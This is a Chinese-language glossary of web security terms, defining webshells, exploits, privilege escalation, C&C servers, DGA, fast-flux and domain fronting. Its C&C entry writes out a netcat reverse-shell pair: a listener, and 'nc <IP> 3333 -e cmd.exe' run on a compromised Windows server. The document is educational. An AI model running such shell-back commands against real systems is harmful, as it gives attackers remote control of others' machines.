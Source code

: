 Web 安全术语
================================

后门
--------------------------------
绕过安全控制而获取对程序或系统访问权的方法。后门的最主要目的就是方便以后再次秘密进入或者控制系统。

Webshell
--------------------------------
Webshell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称作为一种网页后门。

0day漏洞
--------------------------------
通常是指还没有补丁的漏洞。也就是说官方还没有发现或者是发现了还没有开发出安全补丁的漏洞。

Exploit
--------------------------------
简称 exp，漏洞利用。

提权
--------------------------------
提高自己在服务器中的权限，主要针对网站入侵过程中，当入侵某一网站时，通过各种漏洞提升 Webshell 权限以夺得该服务器权限。

跳板
--------------------------------
跳板，简单来说，就是在进行攻击或渗透时，不直接发起，而是控制一台中间主机来进行。这台中间主机就成为跳板。

拖库
--------------------------------
网站遭到入侵后，黑客窃取其数据库。

社会工程学
--------------------------------
一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段取得自身利益的手法，已成迅速上升甚至滥用的趋势。

Apt 攻击
--------------------------------
高级持续性威胁。 利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。

CC 
--------------------------------
CC = Challenge Collapsar，意为“挑战黑洞”，其前身名为Fatboy攻击，是利用不断对网站发送连接请求致使形成拒绝服务的目的。

C&C
--------------------------------
C&C服务器全称是 Command and Control Server，翻译过来就是命令和控制服务器.通常在做渗透测试的时候，在拿到一个 webshell的时候，需要对服务器进行提权操作，如果是一台 windows 的服务器，提权的时候通常是利用本地提权漏洞的 exp 进行溢出提权，有些 exp 可以直接在后面加参数，溢出成功之后执行参数中的命令。而有的 exp溢出成功之后是返回一个 system 权限的 cmd，这时就需要将低权限的 cmd shell 反弹回本地，这里用 nc 在本地执行：nc -vv -lp 3333.上述命令的意思是在本地监听一个 3333 端口等待连接，假设电脑 IP 是公网的，并且 IP 为 114.114.114.114，然后在目标服务器就可以执行：nc 114.114.114.114 3333 -e cmd.exe.
上面的命令就可以把远程服务器的服务器权限的 cmd shell 返回到本地，这时你就可以通过 nc 建立的这个 shell 进行通信，发送你要执行的命令，在远程服务器接收到命令之后执行并将结果返回，这时本机电脑就是一个简易的 C&C 服务器。

DGA
---------------------------------
DGA域名生成算法经常被用作恶意软件连接C2中控。在早期的僵尸网络中，控制者通常会把C&C服务器的域名或者IP地址硬编码到恶意程序中，僵尸主机通过这些信息定时访问C&C主机获取命令。但同时安全人员也能够通过逆向恶意程序，得到C&C服务器的域名或者IP，利用这些信息定位C&C主机，安全人员就可以隔断C&C主机从而破坏僵尸网络。恶意软件定期使用DGA算法生成为随机域名，有效绕过黑名单检测，尝试连接，寻找C2中控。如果一个生成的域名无法连接，便生成下一个DGA为随机域名进行连接尝试。IP被阻断C2换一个域名可以继续操作。大多数dga域名在互联网环境是访问不到的，为什么？因为没有注册，黑客可以在软件中会写多个dga域名，在确认使用攻击时注册若干个，然后中招的机器接入互联网就可以与dga域名进行通信了。

Fast-flux
---------------------------------
在正常的DNS服务器中，用户对同一个域名做DNS查询，在较长的一段时间内，无论查询多少次返回的结果基本上是不会改变的。Fast-flux技术是指不断改变域名和IP地址映射关系的一种技术，也就是说在短时间内查询使用Fast-flux技术部署的域名，会得到不同的结果.
 | 客户端两次访问www.example.com的过程如下：
 | 1)为了得到网站www.example.com的IP地址，客户端发起DNS查询。
 | 2)随后DNS服务器返回了一个IP地址1.2.3.4，同时TTL为一个很小的数值。
 | 3)客户端访问IP为1.2.3.4的服务器获取内容。
 | 4)IP为1.2.3.4的服务器响应请求，返回相应内容。
 | 5)客户端再次访问www.example.com，由于TTL过小，本地缓存的DNS记录失效，客户端需要再次向DNS服务器获取新的IP地址。
 | 6)此次DNS服务器返回了IP 4.3.2.1，这次的TTL仍然很小。
 | 7)客户端访问IP为4.3.2.1的服务器获取内容。
 | 8)IP为4.3.2.1的服务器响应请求，返回相应内容。

POC
---------------------------------
即Proof of Concept，漏洞验证程序，功能为检测漏洞是否存在。poc和exp(全称Exploit)的区别就是，poc是漏洞验证程序，exp是漏洞利用程序。

通用型漏洞
---------------------------------
有一定使用量或者说是用户量的第三方框架、软件、应用、系统等对应的漏洞，拿web层应用来说需要满足：
 | 1)两个站点以上使用了该应用，可参考cnvd（国家信息安全漏洞共享平台）的漏洞；
 | 2)路径固定、参数固定。

域前置
---------------------------------
Domain Fronting，中文译名 “域前置” 或 “域名前置”，用于隐藏服务器真实ip并伪装成高信誉域名与目标通讯，来规避IDS的流量检测和审计，Domain Fronting 的核心技术是 CDN。

